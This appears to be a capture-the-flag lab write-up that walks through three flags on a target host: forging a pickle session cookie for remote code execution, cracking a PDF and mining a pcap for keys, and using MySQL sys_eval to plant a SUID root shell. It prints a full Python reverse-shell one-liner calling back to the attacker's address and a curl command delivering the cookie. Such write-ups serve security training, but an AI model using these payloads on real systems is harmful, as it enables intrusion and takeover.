 ```yaml
---
title: 'AttackDenfed CTF: Oct 1 2020'
date: '2020-11-22 16:40:00 -0400'
categories:
  - CTF
  - AttackDefend
tags:
  - CTF
  - AttackDefend
  - Reverse Engineering
  - Ghidra
  - Pickle
  - SUID
  - MySQL
published: true
---
```


# Flag 1

We're given a target address of 192.x.y.3. An Nmap scan shows SSH and a web server running.

![13c5d8ac4fab585020b936499aed00f4.png](./../../assets/img/13c5d8ac4fab585020b936499aed00f4.png)

Looking at the webapp on port 8080, it seems like input sanitization bypass might be the way forward.

![03533c048460bba8252626c4d39bcd0a.png](./../../assets/img/03533c048460bba8252626c4d39bcd0a.png)

We aren't able to modify the command argument with guest access, so we'll take a look at the request in Burp to see if there's anything useful in there.

![732ff63139706d26176bc69eb58f0f6f.png](./../../assets/img/732ff63139706d26176bc69eb58f0f6f.png)

The cookie value looks interesting, so we'll decode the Base64 to see if there is anything we can learn.

![743f6ad833cdb58d79dc2a9aea1bc415.png](./../../assets/img/743f6ad833cdb58d79dc2a9aea1bc415.png)

We're able to change the role from guest to admin and alter the commands on the site, but they are heavily filtered. But if we run a quick google search for something like "dp0 cookie" we see that this is in fact a pickle cookie, and that's something we can exploit.

![f933873666826e430d4cd3926f6d891a.png](./../../assets/img/f933873666826e430d4cd3926f6d891a.png)

The contents of revshell.sh.

![084f43f41227627cdb59ff7e2d957528.png](./../../assets/img/084f43f41227627cdb59ff7e2d957528.png)

Now we'll generate the new cookie using a custome script.

![ae15f852cdedea23a9ea314f40a6ebbd.png](./../../assets/img/ae15f852cdedea23a9ea314f40a6ebbd.png)

Before firing off the exploit, we'll host the revshell and a dummy text file called finished.txt with Python. The purpose of the text file is just in case we don't get a shell, to see if the target is processing past our shell script. It shouldn't since we're opening up a network connection. Now we'll drop the new cookie value into Burp repeater with a NC listener up and fire away.

![016494e0b7dd98ae39eba7136aaa632f.png](./../../assets/img/016494e0b7dd98ae39eba7136aaa632f.png)
![fe47363ef03f628a86287086b8e2de52.png](./../../assets/img/fe47363ef03f628a86287086b8e2de52.png)
![c1b15e4bcd7420371ac4ee5fdfd0c54b.png](./../../assets/img/c1b15e4bcd7420371ac4ee5fdfd0c54b.png)

Now we can grab our flag.

![4b6d04a98033d9078395fd3704631aa4.png](./../../assets/img/4b6d04a98033d9078395fd3704631aa4.png)

There is a cleaner way to reproduce this now that we know how it all works. First thing we have to do is change the DEFAULT_COMMAND line in our exploit code to the following:

```
DEFAULT_COMMAND = "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.76.80.2\",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")'"
```

Then we generate the new cookie.

![0e4103e4fc8673fb2ce05016fc5439e8.png](./../../assets/img/0e4103e4fc8673fb2ce05016fc5439e8.png)

Next, with a NC lisitener up, we use Curl to send the payload with `curl -s --cookie "session=<exploit cookie> "http://192.76.80.3:8080/`.

![2d800efa36ae5f669eed0ca6997c7f3e.png](./../../assets/img/2d800efa36ae5f669eed0ca6997c7f3e.png)
![6cdbb5d3b5f6e8d76d673521c9858caf.png](./../../assets/img/6cdbb5d3b5f6e8d76d673521c9858caf.png)

# Flag 2

Now that we're on the target, we find a Pcap file in /home/admin. To make things easier, we'll spin up a Python HTTP server on the target and download it to our machine.

![5a6056468d97411f7987cef87aca9e81.png](./../../assets/img/5a6056468d97411f7987cef87aca9e81.png)
![cf9617ff40bcb931e8cfd650a0e757f8.png](./../../assets/img/cf9617ff40bcb931e8cfd650a0e757f8.png)

Looking through the Pcap in wireshark we can see that there are some file downloads in the traffic.

![a42d4c0a962958a234e528acb3f49ad5.png](./../../assets/img/a42d4c0a962958a234e528acb3f49ad5.png)

We'll extract all of the Zip files since they all appear to be important.

![3428b6ec563963556993ec86a588c2d0.png](./../../assets/img/3428b6ec563963556993ec86a588c2d0.png)

All of the Zip files extract without requiring a password. Now to start digging. The secret.jpg appears to be a plain image with nothing in the EXIF data. But if we run strings against it, there's an RSA key embedded into the file.

![237c378f8e9fd4f9fba05cca4a237a02.png](./../../assets/img/237c378f8e9fd4f9fba05cca4a237a02.png)

We don't have any luck using that key to SSH in as admin, so we'll save it and move on for now. Next we'll take a look at the PDF file. If we use pdf2john to make a hash, we can crack it with john and rockyou.

![c14b40e424f62b7e3443c09a10a688b4.png](./../../assets/img/c14b40e424f62b7e3443c09a10a688b4.png)
![22968642485408a485bfc6968120225a.png](./../../assets/img/22968642485408a485bfc6968120225a.png)

Now we can open the PDF with the password.

![f4cf72a18af4761edd357f7ed07d1533.png](./../../assets/img/f4cf72a18af4761edd357f7ed07d1533.png)

Since there is a password hash for an admin user, we'll try to crack that while we work on the binary file.

![40c5a7d8daee1b2c945eab7f4e189ae1.png](./../../assets/img/40c5a7d8daee1b2c945eab7f4e189ae1.png)

To check for a possible BOF, we'll throw a bunch of characters at it as an argument and see if anything happens.

![fd831af077eb02295fd7f05b099f9eb2.png](./../../assets/img/fd831af077eb02295fd7f05b099f9eb2.png)

Well this has potential, so we'll take a look at the binary in Ghidra to see if we can figure out what's going on.

![af0ff297b290b8f5c624818209a0e2e5.png](./../../assets/img/af0ff297b290b8f5c624818209a0e2e5.png)

The binary wants the argument of "imroot", so we'll try it and see what we get.

![17f24df53b960fc22de613763d16f739.png](./../../assets/img/17f24df53b960fc22de613763d16f739.png)

Awesome, we now have another key. Unfortunately this doesn't get us into the box as root or admin. This is where we have to go back and take things exactly as their written. The admin "hash" from the PDF really was the plain text password. So we SSH into the box as `admin:05055025948b9ac1481582801c7bb732`.

![3a785b158455ce5c16aaff6f790bfd69.png](./../../assets/img/3a785b158455ce5c16aaff6f790bfd69.png)

Now to grab the flag and wrap up this part of the challenge.

![fece5207fd106f7c6a144d4c7cb2b575.png](./../../assets/img/fece5207fd106f7c6a144d4c7cb2b575.png)

# Flag 3

Now we're set to look for root. If we take a look at Bash history we can see two password change commands.

![aa61bfd730bf3de341931f844e3a95b5.png](./../../assets/img/aa61bfd730bf3de341931f844e3a95b5.png)

With some tinkering, we're able to login to the local MySQL server as `admin:I_w4nt3d_4n_34sy_p4ssword_t0_r3m3mb3r`.

![68585a7abd2ed1937761a5a36b6ea3c1.png](./../../assets/img/68585a7abd2ed1937761a5a36b6ea3c1.png)

If we take a look at the internal functions we have at our displosal, we can see we have access to the sys_eval function. This should gain us RCE as root, so we'll run a simple check to see if it's what we want.

![a834bd119bde93af106c1f806349b0d4.png](./../../assets/img/a834bd119bde93af106c1f806349b0d4.png)
![17ccbb8aba9143944cae1686c8927c0f.png](./../../assets/img/17ccbb8aba9143944cae1686c8927c0f.png)

Perfect, we can run commands as root. We could just enumerate and grab the flag like this, but a shell is always the best way to go for the sake of learning. First we need to create a simple privesc binary called shell.c.

![a14f633f2df7d4a548b212bb85e86fa7.png](./../../assets/img/a14f633f2df7d4a548b212bb85e86fa7.png)

Next we'll compile it.

![9aed51c40de2052109ce8d092e26c531.png](./../../assets/img/9aed51c40de2052109ce8d092e26c531.png)

Now using MySQL, we'll turn the binary into a SUID.

![f7dd4c44bf49b4cc4a33fa16031beb42.png](./../../assets/img/f7dd4c44bf49b4cc4a33fa16031beb42.png)

Now we can run the SUID binary and get out full root shell and the last flag.

![7ddc39c71fc421d0a326ba0ad6bd04ca.png](./../../assets/img/7ddc39c71fc421d0a326ba0ad6bd04ca.png)
